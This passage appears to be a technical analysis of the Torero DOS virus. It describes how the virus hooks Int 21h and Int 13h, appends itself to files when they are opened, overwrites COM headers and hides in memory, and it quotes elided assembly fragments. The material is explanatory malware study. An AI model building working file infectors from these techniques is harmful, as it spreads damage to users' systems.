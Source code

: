    -   The virus replaces the original interrupt vectors for Int 21h (DOS system calls) and Int 13h (low-level disk operations) with its own handlers.
    -   This allows it to intercept and control certain system operations.

```
; Setting new interrupt 21h
set_int_21h:    ...
                mov     word ptr [si-4], offset new_int_21h
                mov     word ptr [si-2], ax          ; Set our Int 21h

; Setting new interrupt 13h
                ...
                mov     word ptr [si-4], offset new_int_13h
                mov     word ptr [si-2], ax          ; Set our Int 13h
```

3.  **File Infection**:
    
    -   Upon file opening (via Int 21h, function 3Dh), the virus checks if the file is infected. If not, it infects it by appending its code.
    -   It also manipulates file attributes to hide its activity.

```
file_open:      call    infect_file                 ; Infection routine
                jmp     dword ptr cs:[old_int_21h]  ; Jump back to original Int 21h

infect_file:    ...
                mov     ax, 3d00h                    ; Open the file
                call    int_21h
                ...
                mov     ah, 40h                      ; Write the virus to the end of the file
                mov     cx, torero_size
                lea     dx, torero_start
                call    int_21h
                ...
                mov     ah, 40h                      ; Overwrite the file header to ensure virus execution
                mov     cx, 3
                lea     dx, com_header
                call    int_21h

```

4.  **Modification of Interrupt Vectors**:
    
    -   The virus modifies the interrupt vectors for system calls and disk operations, redirecting these calls to itself first.

5.  **Stealth Behavior**:
    
    -   The virus attempts to hide by modifying memory control block information and intercepting system calls to avoid detection.
6.  **Error Handling (Int 24h)**:
    
    -   The virus handles interrupt 24h, used for critical DOS errors, to prevent crashes or suspicious behavior.
7.  **Infection Routine**:
    